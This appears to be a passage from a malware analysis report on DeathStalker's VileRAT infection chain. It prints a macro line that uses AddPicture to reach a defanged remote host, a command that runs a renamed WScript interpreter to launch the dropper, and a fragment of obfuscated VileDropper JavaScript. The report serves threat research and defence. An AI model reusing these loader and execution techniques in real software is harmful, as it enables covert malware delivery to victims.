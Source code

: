 



doc.Shapes.AddPicture (decodestring("09184015545D5B1B1B07501E001F5C4B0D1D5B3B2D3647143422115728383E1D3E2A024B06025B...0F1C02301C4B57743F190273173713384258545B46582D5C242F3335565C234123543853115838183D21156116500F5C210A2717462327073A362E765C370347362B267F1035230C1036"))
' hxxp://hubflash[.]co/HCSqfUN%2FJJnPO49gnojrpDo%2BMxnGrYaL161m49AhAAAA%2FwQ5Tgt6JlNO
pWd1chDdUc5MB1HWBB9Yq3EECIbTO8uX




123

doc.Shapes.AddPicture (decodestring("09184015545D5B1B1B07501E001F5C4B0D1D5B3B2D3647143422115728383E1D3E2A024B06025B...0F1C02301C4B57743F190273173713384258545B46582D5C242F3335565C234123543853115838183D21156116500F5C210A2717462327073A362E765C370347362B267F1035230C1036"))' hxxp://hubflash[.]co/HCSqfUN%2FJJnPO49gnojrpDo%2BMxnGrYaL161m49AhAAAA%2FwQ5Tgt6JlNOpWd1chDdUc5MB1HWBB9Yq3EECIbTO8uX




Figure 9. DOTM-embedded macro leverages “AddPicture” as a Web client
In any case, the DOTM-embedded macro finally triggers VileDropper’s execution, using a renamed copy of the “WScript” interpreter (“msdcat.exe” or “msgmft.exe” in the “%APPDATA%” folder), with a command such as:





msgmft.exe /E:jScrIpt "\changelog.txt" 91 pattern.txt




1

msgmft.exe /E:jScrIpt "\changelog.txt" 91 pattern.txt




“changelog.txt” is VileDropper, while “91” is part of password used by VileDropper to decode XORed data, and “pattern.txt” is an encoded package that contains VileLoader.
VileDropper: an overly obfuscated task scheduler
Next in DeathStalker’s intricate VileRAT infection chain comes VileDropper. It is an obfuscated JavaScript file that mainly drops and schedules the execution of the next stage: VileLoader.





var _0x140c9e;//ACCS3
_0x36bbe9: {//ACCS3
    try {//ACCS3
        var _0x527036 = _0x112a30 + '\x5c' + WScript[_0x1dbcbb(0x38c)](0x1),//ACCS3
            _0x33ee6e = _0x3b3918[_0x4462ad[_0x1dbcbb(0x312)](_0x4459df, _0x4462ad[_0x1dbcbb(0x23d)])](_0x527036, 0x1),//ACCS3
            _0x46efdf = _0x33ee6e[_0x4459df(_0x1dbcbb(0x1e7) + _0x1dbcbb(0x29c))]();//ACCS3
        _0x33ee6e[_0x1dbcbb(0x37a)](), _0x3b3918[_0x1dbcbb(0x38f)](_0x527036), _0x527036 = '';//ACCS3
        for (_0x33ee6e = 0x0; _0x33ee6e < _0x46efdf[_0x1dbcbb(0x2fa)] - 0x2; _0x33ee6e += 0x2)//ACCS3
            _0x527036 += String[_0x1dbcbb(0x259) + 'de'](parseInt(_0x46efdf[_0x1dbcbb(0x2f4)](_0x33ee6e, _0x33ee6e + 0x2), 0x10));//ACCS3
        _0x140c9e = _0x527036;//ACCS3
        break _0x36bbe9;//ACCS3
    } catch (_0x48c9c6) {}//ACCS3
    _0x140c9e = void 0x0;//ACCS3
}//ACCS3
